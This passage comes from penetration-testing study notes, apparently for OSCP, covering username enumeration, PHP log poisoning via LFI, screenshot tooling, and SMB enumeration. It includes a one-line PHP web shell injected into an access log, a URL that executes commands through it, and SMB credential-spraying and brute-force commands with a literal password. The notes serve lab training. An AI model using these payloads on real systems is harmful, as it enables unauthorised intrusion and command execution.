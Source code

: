 - Login pages:  
  Username enumeration through  
  - Checking login failed message  
  - Registering account (try same email twice, same username twice)  

- PHP Logfile contamination:  
  (add the PHP code to the logfile and the with LFI get the logfile somewhere where "include PHP function" is being used)
  `kali@kali:~$ nc -nv 10.11.0.22 80`  
  `(UNKNOWN) [10.11.0.22] 80 (http) open`  
  `<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`  
  Use the PHP code in the logfile:  
  `http://10.11.0.2/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`  

- Screenshots using GoWitness (via burp proxy):
  First install chrome:    
  ```
  curl -L https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb > google-chrome-stable_current_amd64.deb
  sudo dpkg -i google-chrome-stable_current_amd64.deb
  ```
  Then run gowitness: (second example via burp proxy)    
  ```
  ./gowitness-3.0.5-linux-amd64 scan nmap -f /home/nmap_results.xml --open-only --service-contains http
  ./gowitness-3.0.5-linux-amd64 file -f urls.txt --delay 10 -p http://127.0.0.1:8080
  ```
  GoWitness report creation:   
  `./gowitness-2.4.2-linux-amd64 report export -f gowitness-report.zip`   

- Aquatone Installation:
   `wget https://github.com/michenriksen/aquatone/releases/download/v1.7.0/aquatone_linux_amd64_1.7.0.zip`   
   `unzip aquatone_linux_amd64_*.zip -d /opt/aquatone/`   
   If google chrome is not yet installed:    
   `echo "deb [arch=amd64] https://dl.google.com/linux/chrome/deb/ stable main" > /etc/apt/sources.list.d/google-chrome.list`   
   `wget -q -O - https://dl-ssl.google.com/linux/linux_signing_key.pub | apt-key add -`   
   `apt-get update`   
   `apt-get install google-chrome-stable`   
   Aquatone Usage:    
   Collect data based on nmap report: `cat nmap.xml | /opt/aquatone/aquatone -nmap -chrome-path /usr/bin/google-chrome -out screenshots -ports xlarge`   
   Run Aquatone on list of IPs with specific ports: `cat ips.txt | /opt/aquatone/aquatone -chrome-path /usr/bin/google-chrome -out screenshots -ports 25,80,161,264,443,2001,3478,4999,5222,6080,8443,18264,27299,38751`  

- https://guif.re/webtesting
- https://sushant747.gitbooks.io/total-oscp-guide/common_web-services.html 

## SMB
- `nmap -p 139,445 --script=smb-vuln* $targetip`  
- `enum4linux -a $targetip`  
- `smbclient \\\\$ip\\$share`  
- `smbmap -H <IPAddress>`  
- `nbtscan`  
- ` smb 10.11.1.1/24`
- Null connect:
  `rpcclient -U "" 10.10.10.10` 
- Try known creds on targets: `nxc smb 10.11.1.1/24 -u Administrator -p 99bbVDdorGzfZJun`  
- Bruteforcing: `nxc smb 10.11.1.1/24 -u /ville/Desktop/OSCP/PWK/users.txt -p /ville/Desktop/OSCP/PWK/pws.txt`  
- Check accessible shares in network with specific domain account:   
  `# smbmap -d <domain> -u <username> -p <password> --host-file files/smbhosts.txt`  
- Search for sensitive data on shares with smbmap:   